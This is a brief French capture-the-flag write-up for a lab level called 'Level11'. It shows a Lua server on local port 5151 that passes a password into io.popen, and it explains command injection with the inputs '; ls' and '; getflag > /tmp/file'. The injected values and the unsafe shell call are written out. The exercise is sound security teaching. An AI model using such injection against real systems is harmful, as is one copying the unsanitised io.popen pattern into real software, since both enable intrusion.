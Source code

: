 ## Level11:

sur le port 5151 un serveur est lance donc : 
`nc 127.0.0.1 5151`  
`  prog = io.popen("echo "..pass.." | sha1sum", "r")`

Ici le mot de passe va etre envoye dans io.popen, donc si une commande comme `; ls` est envoye, la commande ls  va etre exec.  
Donc il suffit de faire un ` ; getflag > /tmp/file` pour exec la commande. 
